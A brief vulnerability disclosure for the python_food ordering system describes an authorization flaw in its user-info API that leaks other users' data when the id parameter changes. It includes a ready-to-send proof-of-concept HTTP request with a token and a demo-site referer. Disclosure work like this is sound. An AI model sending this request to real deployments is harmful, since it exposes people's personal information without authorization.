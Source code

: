 target:https://github.com/geeeeeeeek/python_food
version: V1.0

The python_food ordering system has an unauthorized vulnerability that leads to the leakage of sensitive user information. Attackers can access it through https://ip:port/api/myapp/index/user/info?id=1 And modify the ID value to obtain sensitive user information beyond authorization.

POC:
```
GET /api/myapp/index/user/info?id=516 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: a843da0e5b67ff9043d4a14da18af70c
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://food.gitapp.cn/index/usercenter/userInfoEditView
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```


